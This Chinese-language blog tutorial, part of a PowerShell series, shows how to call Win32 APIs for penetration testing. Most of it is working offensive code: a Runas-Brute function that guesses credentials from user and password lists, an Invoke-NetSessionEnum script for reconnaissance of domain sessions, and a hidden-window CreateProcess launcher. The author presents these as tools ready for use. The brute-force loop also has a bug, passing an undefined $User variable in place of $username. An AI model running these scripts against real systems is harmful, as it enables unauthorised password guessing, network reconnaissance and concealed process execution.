


# powershell(8)-win32API

Powershell还有一大强大之处就是能调用Win32-Api(废话)，这给我们带来了极大的便利，也就是API能实现的功能当我们在渗透的过程中我们能轻而易举的实现，而我们只需要在对方机器执行一条命令即可。

下面我们通过几个脚本来介绍我们如何通过Powershell来调用Win32Api，从而达到学习的目的，也能够为大家的脚本工具增添xx....:)

## Runas

runas.exe是一个Windows自带的程序，一条简单的命令`runas /user:corp\bob cmd`可以用域内另外一个用户的身份开一个shell，当然需要你输入密码

这次我们直接通过Powershell来实现runas，但是我们就不介绍他直接的用处了，那么runas我们能想到的利用场景还有什么呢？我们可以通过输入密码对用户的密码进行爆破。

```powershell

function Runas-Brute {

<#
.SYNOPSIS
    Parameters:

     -UserList              Specifiy usernameList.
     
     -PasswordList          Specify passwordList.
     
     -Domain            Specify domain. Defaults to localhost if not specified.
     
     -LogonType         dwLogonFlags:
                          0x00000001 --> LOGON_WITH_PROFILE
                                           Log on, then load the user profile in the HKEY_USERS registry
                                           key. The function returns after the profile is loaded.
                                           
                          0x00000002 --> LOGON_NETCREDENTIALS_ONLY (= /netonly)
                                           Log on, but use the specified credentials on the network only.
                                           The new process uses the same token as the caller, but the
                                           system creates a new logon session within LSA, and the process
                                           uses the specified credentials as the default credentials.
     
     -Binary            Full path of the module to be executed.
                       
     -Args              Arguments to pass to the module, e.g. "/c calc.exe". Defaults
                        to $null if not specified.
                       

.EXAMPLE
    Start cmd with a local account
    C:\PS> Invoke-Runas -UserList SomeAccountList -PasswordList SomePassList -Binary C:\Windows\System32\cmd.exe -LogonType 0x1
    
.EXAMPLE
    Start cmd with remote credentials. Equivalent to "/netonly" in runas.
    C:\PS> Invoke-Runas -UserList SomeAccountList -PasswordList SomePassList -Domain SomeDomain -Binary C:\Windows\System32\cmd.exe -LogonType 0x2
#>

    param (
        [Parameter(Mandatory = $True)]
        [string]$UserList,
        [Parameter(Mandatory = $True)]
        [string]$PasswordList,
        [Parameter(Mandatory = $False)]
        [string]$Domain=".",
        [Parameter(Mandatory = $True)]
        [string]$Binary,
        [Parameter(Mandatory = $False)]
        [string]$Args=$null,
        [Parameter(Mandatory = $True)]
        [int][ValidateSet(1,2)]
        [string]$LogonType
    )  

    Add-Type -TypeDefinition @"
    using System;
    using System.Diagnostics;
    using System.Runtime.InteropServices;
    using System.Security.Principal;
    
    [StructLayout(LayoutKind.Sequential)]
    public struct PROCESS_INFORMATION
    {
        public IntPtr hProcess;
        public IntPtr hThread;
        public uint dwProcessId;
        public uint dwThreadId;
    }
    
    [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Unicode)]
    public struct STARTUPINFO
    {
        public uint cb;
        public string lpReserved;
        public string lpDesktop;
        public string lpTitle;
        public uint dwX;
        public uint dwY;
        public uint dwXSize;
        public uint dwYSize;
        public uint dwXCountChars;
        public uint dwYCountChars;
        public uint dwFillAttribute;
        public uint dwFlags;
        public short wShowWindow;
        public short cbReserved2;
        public IntPtr lpReserved2;
        public IntPtr hStdInput;
        public IntPtr hStdOutput;
        public IntPtr hStdError;
    }
    
    public static class Advapi32
    {
        [DllImport("advapi32.dll", SetLastError=true, CharSet=CharSet.Unicode)]
        public static extern bool CreateProcessWithLogonW(
            String userName,
            String domain,
            String password,
            int logonFlags,
            String applicationName,
            String commandLine,
            int creationFlags,
            int environment,
            String currentDirectory,
            ref  STARTUPINFO startupInfo,
            out PROCESS_INFORMATION processInformation);
    }
    
    public static class Kernel32
    {
        [DllImport("kernel32.dll")]
        public static extern uint GetLastError();
    }
"@

    # StartupInfo Struct
    $StartupInfo = New-Object STARTUPINFO
    $StartupInfo.dwFlags = 0x00000001
    $StartupInfo.wShowWindow = 0x0001
    $StartupInfo.cb = [System.Runtime.InteropServices.Marshal]::SizeOf($StartupInfo)
    
    # ProcessInfo Struct
    $ProcessInfo = New-Object PROCESS_INFORMATION
    
    # 创建一个在当前目录的shell
    $GetCurrentPath = (Get-Item -Path ".\" -Verbose).FullName
    
    echo "`n[>] Calling Advapi32::CreateProcessWithLogonW"

    $usernames = Get-Content -ErrorAction SilentlyContinue -Path $UserList
    $passwords = Get-Content -ErrorAction SilentlyContinue -Path $PasswordList
    if (!$usernames) { 
        $usernames = $UserList
        Write-Verbose "UserList file does not exist."
        Write-Verbose $usernames
    }
    if (!$passwords) {
        $passwords = $PasswordList
        Write-Verbose "PasswordList file does not exist."
        Write-Verbose $passwords
    }

    :UsernameLoop foreach ($username in $usernames)
    {
        foreach ($Password in $Passwords)
        {
            $CallResult = [Advapi32]::CreateProcessWithLogonW(
                $User, $Domain, $Password, $LogonType, $Binary,
                $Args, 0x04000000, $null, $GetCurrentPath,
                [ref]$StartupInfo, [ref]$ProcessInfo)

            if (!$CallResult) {
                echo "==> $((New-Object System.ComponentModel.Win32Exception([int][Kernel32]::GetLastError())).Message)"
                echo "Test: " , $User , $password
            } else {
                echo "`n[+] Success, process details:"
                Get-Process -Id $ProcessInfo.dwProcessId
                echo "Test: " , $User , $password
                break UsernameLoop
            } 
        }
    }
}
```
这是整个脚本的代码，那么下面就是运行的结果，我们只需要指定好他的字典文件即可



## NetSessionEnum

下面一个简单的介绍NetSessionEnum。首先我们需要了解的是，在真实的测试过程中我们需要知道域内的组织架构，域内的活动机器等等。那么可以提供的工具也有很多，比如：PVEFindADUser.exe psloggedon.exe netsess.exe hunter.exe等等，那么我们还是选择powershell作为我们的最佳利用工具，其实上面讲到的工具都是调用了NetSessionEnum API，那么我们Powershell也能够非常方便的调用此API，而且最重要的一点，我们并不需要域管的权限，下面我们来看一下这里如何实现。

```powershell
function Invoke-NetSessionEnum {
<#
.SYNOPSIS

	使用NetSessionEnum去列出目前的活动🎨

.EXAMPLE
	PS> Invoke-NetSessionEnum -HostName SomeHostName

#>

	param (
        [Parameter(Mandatory = $True)]
		[string]$HostName
	)  

	Add-Type -TypeDefinition @"
	using System;
	using System.Diagnostics;
	using System.Runtime.InteropServices;
	
	[StructLayout(LayoutKind.Sequential)]
	public struct SESSION_INFO_10
	{
		[MarshalAs(UnmanagedType.LPWStr)]public string OriginatingHost;
		[MarshalAs(UnmanagedType.LPWStr)]public string DomainUser;
		public uint SessionTime;
		public uint IdleTime;
	}
	
	public static class Netapi32
	{
		[DllImport("Netapi32.dll", SetLastError=true)]
			public static extern int NetSessionEnum(
				[In,MarshalAs(UnmanagedType.LPWStr)] string ServerName,
				[In,MarshalAs(UnmanagedType.LPWStr)] string UncClientName,
				[In,MarshalAs(UnmanagedType.LPWStr)] string UserName,
				Int32 Level,
				out IntPtr bufptr,
				int prefmaxlen,
				ref Int32 entriesread,
				ref Int32 totalentries,
				ref Int32 resume_handle);
				
		[DllImport("Netapi32.dll", SetLastError=true)]
			public static extern int NetApiBufferFree(
				IntPtr Buffer);
	}
"@
	
	# 创建 SessionInfo10 结构
	$SessionInfo10 = New-Object SESSION_INFO_10
	$SessionInfo10StructSize = [System.Runtime.InteropServices.Marshal]::SizeOf($SessionInfo10) # Grab size to loop bufptr
	$SessionInfo10 = $SessionInfo10.GetType() 	
	# NetSessionEnum 的参数
	$OutBuffPtr = [IntPtr]::Zero 
	$EntriesRead = $TotalEntries = $ResumeHandle = 0
	$CallResult = [Netapi32]::NetSessionEnum($HostName, "", "", 10, [ref]$OutBuffPtr, -1, [ref]$EntriesRead, [ref]$TotalEntries, [ref]$ResumeHandle)
	
	if ($CallResult -ne 0){
		echo "something wrong!`nError Code: $CallResult"
	}
	
	else {
	
		if ([System.IntPtr]::Size -eq 4) {
			echo "`nNetapi32::NetSessionEnum Buffer Offset  --> 0x$("{0:X8}" -f $OutBuffPtr.ToInt32())"
		}
		else {
			echo "`nNetapi32::NetSessionEnum Buffer Offset  --> 0x$("{0:X16}" -f $OutBuffPtr.ToInt64())"
		}
		
		echo "Result-set contains $EntriesRead session(s)!"
	
		# Change buffer offset to int
		$BufferOffset = $OutBuffPtr.ToInt64()
		
		# Loop buffer entries and cast pointers as SessionInfo10
		for ($Count = 0; ($Count -lt $EntriesRead); $Count++){
			$NewIntPtr = New-Object System.Intptr -ArgumentList $BufferOffset
			$Info = [system.runtime.interopservices.marshal]::PtrToStructure($NewIntPtr,[type]$SessionInfo10)
			$Info
			$BufferOffset = $BufferOffset + $SessionInfo10StructSize
		}
		
		echo "`nCalling NetApiBufferFree, no memleaks here!"
		[Netapi32]::NetApiBufferFree($OutBuffPtr) |Out-Null
	}
}
```


## CreateProcess

最后我们在看一个我们用的最多的API例子：进程创建，我们需要远程创建一个没有窗口而去token由我们指定的进程，至于为什么要这么干大家可以自己领悟。那么CreateProcess API就能满足我们的需求，我们来看一个简单的例子:

```powershell
Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

[StructLayout(LayoutKind.Sequential)]
public struct PROCESS_INFORMATION
{
 public IntPtr hProcess;
 public IntPtr hThread;
 public uint dwProcessId;
 public uint dwThreadId;
}

[StructLayout(LayoutKind.Sequential, CharSet = CharSet.Unicode)]
public struct STARTUPINFO
{
 public uint cb;
 public string lpReserved;
 public string lpDesktop;
 public string lpTitle;
 public uint dwX;
 public uint dwY;
 public uint dwXSize;
 public uint dwYSize;
 public uint dwXCountChars;
 public uint dwYCountChars;
 public uint dwFillAttribute;
 public uint dwFlags;
 public short wShowWindow;
 public short cbReserved2;
 public IntPtr lpReserved2;
 public IntPtr hStdInput;
 public IntPtr hStdOutput;
 public IntPtr hStdError;
}

[StructLayout(LayoutKind.Sequential)]
public struct SECURITY_ATTRIBUTES
{
 public int length;
 public IntPtr lpSecurityDescriptor;
 public bool bInheritHandle;
}

public static class Kernel32
{
 [DllImport("kernel32.dll", SetLastError=true)]
 public static extern bool CreateProcess(
 string lpApplicationName,
 string lpCommandLine,
 ref SECURITY_ATTRIBUTES lpProcessAttributes, 
 ref SECURITY_ATTRIBUTES lpThreadAttributes,
 bool bInheritHandles,
 uint dwCreationFlags, 
 IntPtr lpEnvironment,
 string lpCurrentDirectory,
 ref STARTUPINFO lpStartupInfo, 
 out PROCESS_INFORMATION lpProcessInformation);
}
"@

# StartupInfo Struct
$StartupInfo = New-Object STARTUPINFO
$StartupInfo.dwFlags = 0x00000001 # STARTF_USESHOWWINDOW
$StartupInfo.wShowWindow = 0x0000 # SW_HIDE
$StartupInfo.cb = [System.Runtime.InteropServices.Marshal]::SizeOf($StartupInfo) # Struct Size

# ProcessInfo Struct
$ProcessInfo = New-Object PROCESS_INFORMATION

# SECURITY_ATTRIBUTES Struct (Process &amp; Thread)
$SecAttr = New-Object SECURITY_ATTRIBUTES
$SecAttr.Length = [System.Runtime.InteropServices.Marshal]::SizeOf($SecAttr)

# CreateProcess In CurrentDirectory
$GetCurrentPath = (Get-Item -Path ".\" -Verbose).FullName

# Call CreateProcess
[Kernel32]::CreateProcess("C:\Windows\System32\cmd.exe", "/c calc.exe", [ref] $SecAttr, [ref] $SecAttr, $false,
0x08000000, [IntPtr]::Zero, $GetCurrentPath, [ref] $StartupInfo, [ref] $ProcessInfo) |out-null
```

其中窗口问题是在`$StartupInfo.wShowWindow = 0x0000 # SW_HIDE`这里解决的，下面是测试效果：



可以看到计算器是在cmd进程下面的，那么还有一个需求是使用什么Token来打开一个进程，我们使用API：CreateProcessAsUserW那么大家可以去研究一下如何完成使用特定token打开进程。
